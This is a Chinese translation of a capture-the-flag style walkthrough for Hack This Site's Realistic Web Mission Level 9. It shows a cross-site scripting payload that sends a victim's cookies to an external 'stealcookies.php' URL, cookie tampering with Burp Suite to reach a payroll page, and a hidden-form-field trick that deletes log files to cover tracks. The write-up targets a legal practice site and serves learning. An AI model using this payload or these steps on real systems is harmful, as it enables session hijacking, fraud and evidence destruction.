 # 黑掉这个网站:现实的网络任务——第 9 级

> 原文：<https://medium.com/geekculture/hack-this-site-realistic-web-mission-level-9-bb58a80ff69d?source=collection_archive---------11----------------------->

![](img/bfe875bae357693fcf30360dc334dc44.png)

Hack This Site: Realistic Web Mission — Level 9

感谢你的突然出现，今天我们要看的是[黑掉这个网站](https://hackthissite.org/)现实网络任务 9。换句话说，我们要搞垮软件巨头蹩脚软件。当员工生产劣质软件时，它将不再勒索他们。这次任务非常有趣，完成的过程比以前的任务更加曲折。为了完成这个任务，我们将使用 javascript 来窃取 cookies。此外，我们还必须操纵我们的 cookies 来访问工资系统并支付员工工资。完成后，我们必须操作一个隐藏的表单参数来删除日志文件。如果你没有看过我在现实系列上的其他帖子，你可以在这里看到:[第一部分](https://haxez.org/2021/09/hack-this-site-realistic-web-missions-level-1/)、[第二部分](https://haxez.org/2021/09/hack-this-site-realistic-web-mission-level-2/)、[第三部分](https://haxez.org/2021/09/hack-this-site-realistic-web-mission-level-3/)、[第四部分](https://haxez.org/2021/09/hack-this-site-realistic-web-mission-level-4/)、[第五部分](https://haxez.org/2021/09/hack-this-site-realistic-web-mission-level-5/)、[第六部分](https://haxez.org/2021/09/hack-this-site-realistic-web-mission-level-6/)、[第七部分](https://haxez.org/2021/10/hack-this-site-realistic-web-mission-level-7/)和[第八部分](https://haxez.org/2021/10/hack-this-site-realistic-web-mission-level-8/)。

![](img/5bd7b455a0c1968d99798cfaa19a1555.png)

Crappysoft Software

# 介绍

可以看到，我们收到了一个叫 R·康纳的人发来的信息。总而言之，客户解释说，他们的老板已经停止支付他们的工资，他们的租金到期了。鉴于这几点，他们问我们是否可以侵入在线工资系统并处理他们的付款。因此，他们提供了登录凭证，希望能有所帮助。

![](img/c8ccc8f089b162bf315e9d63b32ce46f.png)

Message From R Conner

# 探索 Web 应用程序

该应用程序有一个相当基本的设计。值得注意的是，顶部有一个标题，左侧有一个导航菜单。此外，导航菜单包含一个到主页、邮件列表、联系人和演示的链接。邮件列表允许访问者提交他们的电子邮件地址。此外，联系表单确实如 tin 上所说的那样，它允许访问者发送电子邮件。演示页面允许访问者下载他们软件的演示。

![](img/d1fa8be40dd1ae60007bcada39831142.png)

Web Application

# 劫持网络 Cookies

客户给了我们他们的凭证，让我们登录看看发生了什么。不出所料，一旦我们登录，我们有许多新的选项。私信，发工资。单击“支付工资”链接会产生一条错误消息，提示我们需要成为管理员。不管怎样，我们需要窃取管理员的凭证。转到私人消息部分，我们可以选择向所有者/管理员发送私人消息。

为了进入管理员的账户，我们需要窃取他们的 cookies。出于这个目的，我们通常需要将一个 PHP 脚本部署到一个远程 web 服务器。当然，GitHub 上有很多可用的，但是部署一个超出了本演练的范围。也许在将来的某个时候。通过向我们的受害者发送以下 Javascript，我们正在执行跨站点脚本攻击，该攻击窃取 cookies 并将它们发送到我们的恶意域。

```
javascript:void(window.location='https://haxez.org/stealcookies.php?'+document.cookie);
```

通过向受害者发送上述脚本，您将收到一个通知，告知您受害者的 cookies。

![](img/6650ce81d15f4f9ddc8661d836f7b36f.png)

Cross Site Scripting — Cookie Stealing

# 操纵网络 Cookies

现在我们有了受害者的饼干，我们可以用它们进入工资系统。为了做到这一点，我们需要直接在浏览器中修改 cookies，或者使用 Burp Suite 这样的工具来拦截和修改它们。为了演示，下图显示了一个被拦截的对 payday.php 页面的请求。它显示 cookie`strUsername`和`strPassword`已经被修改为从 cookie 窃取者漏洞中接收到的那些。转发请求。

![](img/f82c0ee9c36a7423afc40fffb65bc7d9.png)

Burp Suite — Request Intercepted

# 支付人员

在某种程度上，直接在浏览器中修改 cookies 会更容易。通过 Burp Suite 实现这一点需要您为每个请求修改 cookies。例如，我们操纵 cookies 来访问工资页面，但是我们需要截取并再次修改它们来提交支付按钮，如下图所示。不修改 cookie 将从您的浏览器发送默认的 cookie，即客户端的 cookie。

![](img/85aa1a3a6467c5e11f2587942634e82f.png)

Web Application — Pay Personnel

# 掩盖我们的踪迹

既然我们已经成功地将平衡带回了康纳的世界，我们需要隐藏所有我们在这里的证据。在浏览了网站一会儿之后，我发现在 files 目录上启用了目录列表。此外，该目录包含下载、日志和邮件列表目录。这些信息对于利用 web 应用程序删除日志文件来说是无价的。我们不能通过目录列表删除它们，但也许我们可以找到另一种方法。

![](img/a3b1aa5024be0444fd8e5c4bf5f5a51e.png)

Directory Listing

回到申请邮件列表页面，我们可以看到一条消息。该消息说邮件列表检查列表中没有“@”符号的地址并删除它们。这似乎是一个活跃的功能，所以也许我们可以利用它。

![](img/5d5c7a72b800a55f92f8946da67127d7.png)

Web Application — Mailing List

# 利用邮件列表

记住这一点，让我们查看应用程序邮件列表的源代码，并弄清楚发生了什么。我们可以从下图中看到，一个 post 请求被提交到 subscribemailing.php 页面。我们还可以设置一个隐藏的表单值来指定邮件列表的路径。有一个可见的表单，让用户包括他们的电子邮件地址。如果我们提交一个不带“@”符号的电子邮件地址，并将隐藏表单值更改为日志文件，会发生什么情况？

![](img/8be1eb02dc48513aac7f3b178a1e96f7.png)

Web Application — Page Source

你可以直接通过你的浏览器的开发控制台来实现，或者像我一样通过 Burp Suite 来实现。使用 Burp Suite 可以帮助挫败一些客户端检查(比如对“@”符号的检查)。首先，您需要打开 intercept，并向邮件列表填充和提交一个字符串。其次，您需要修改请求，将地址从 addressess.txt 文件更改为/files/logs/logs.txt 文件。最后，您需要转发请求。这应该能让你完成任务。

![](img/afe86dde38b599ec48734c7b293a29b6.png)

Congratulations